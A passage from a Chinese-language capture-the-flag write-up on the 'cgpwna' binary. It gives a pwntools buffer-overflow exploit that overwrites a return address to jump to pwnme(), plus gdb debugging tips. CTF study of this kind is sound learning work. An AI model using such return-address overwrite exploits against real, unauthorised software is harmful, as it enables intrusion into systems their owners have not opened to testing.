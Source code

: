 获得地址为：**0x804851d** 



### 7、写exp

```python
from pwn import *

offset=0xffffd26c-0xffffd238
k=process('./cgpwna')
k.recvline('your choice:')
sleep(1)
k.sendline('1')
sleep(1)
k.recvline('you can leave some message here:')
k.sendline('a'*57)
sleep(1)
k.recvline('your name please:')
k.sendline('1'*offset+p32(0x804851d))
k.interactive()
```

**若是程序错误或者问题**

**使用raw_input()**

**使得程序暂停，然后用gdb命令：attach pid**

**然后使用fin进入程序点，使用ni跟踪执行**

![image-20200209044856978](%E5%8D%97%E9%82%AEcgpwna.assets/image-20200209044856978.png)

成功进入了pwnme()函数

就是说明成功执行

### 8、进入pwnme()函数分析

接下来就是需要使用到raw_input()

然后执行python文件后，用gdb追踪pid，然后再回到执行python文件的命令中回车
